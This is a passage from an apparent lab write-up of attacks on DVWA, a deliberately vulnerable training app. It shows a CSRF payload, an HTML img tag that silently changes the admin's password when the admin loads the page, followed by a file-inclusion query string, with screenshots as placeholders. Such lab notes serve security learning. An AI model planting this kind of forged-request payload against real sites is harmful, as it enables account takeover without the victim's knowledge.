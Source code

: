 Admin has to visit this page and get request will be sent with his new password and his own session-cookie

```html
<html>
<img src="http://192.168.10.3/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change">
</html>
```

CSRF get request

![alt text](images/photo_0.jpg)

### File Inclusion

input

```html
?page=file4.php
```

output

![alt text](images/photo_6.jpg)